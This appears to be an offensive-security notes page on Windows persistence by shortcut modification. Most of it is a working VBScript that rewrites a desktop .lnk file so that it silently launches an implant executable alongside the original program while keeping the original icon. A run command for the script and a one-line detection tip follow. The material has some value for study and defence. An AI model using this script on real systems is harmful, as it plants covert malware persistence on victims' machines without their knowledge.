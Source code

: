 # Shortcut Modification

#### The end user usually uses some form of shortcuts or links to run apps or access files/folders. these shortcuts can be modified to run attackers payload instead.

From attackers point of view these files are actually `.lnk` files stored in the Desktop directory for each user:

```
C:\Users\username\Desktop
```

we can't edit these files like a normal text file. we can use this VBA script to edit these files:

```vba
' CONFIGURATION
implant = "C:\RTO\PERS\implant\implant.exe"
newTarget = "C:\RTO\PERS\01.USER\putty.vbs"
lnkName = "putty.exe.lnk"

' helper vars
set WshShell = WScript.CreateObject("WScript.Shell" )
strDesktop = WshShell.SpecialFolders("Desktop" )
set oShellLink = WshShell.CreateShortcut(strDesktop & "\" & lnkName )
origTarget = oShellLink.TargetPath
origArgs = oShellLink.Arguments
origIcon = oShellLink.IconLocation
origDir = oShellLink.WorkingDirectory

' persistence implantation
Set FSO = CreateObject("Scripting.FileSystemObject")
Set File = FSO.CreateTextFile(newTarget,True)
File.Write "Set oShell = WScript.CreateObject(" & chr(34) & "WScript.Shell" & chr(34) & ")" & vbCrLf
File.Write "oShell.Run " & chr(34) & implant & chr(34) & vbCrLf
File.Write "oShell.Run " & chr(34) & oShellLink.TargetPath & " " & oShellLink.Arguments & chr(34) & vbCrLf
File.Close

oShellLink.TargetPath = newTarget
oShellLink.IconLocation = origTarget & ", 0"
oShellLink.WorkingDirectory = origDir
oShellLink.WindowStyle = 7
oShellLink.Save
```

```
wscript c:\rto\PERS\01.USER\makelnk.vbs
```

#### this script will take the putty.lnk file (a link to putty executable file) from the desktop and modifies it to change the target path to run another VBA script that will run both the original putty.exe binary and the attacker payload.

## <mark style="color:red;">Detection</mark>

check all desktop links and shortcuts to make sure they are not modified.
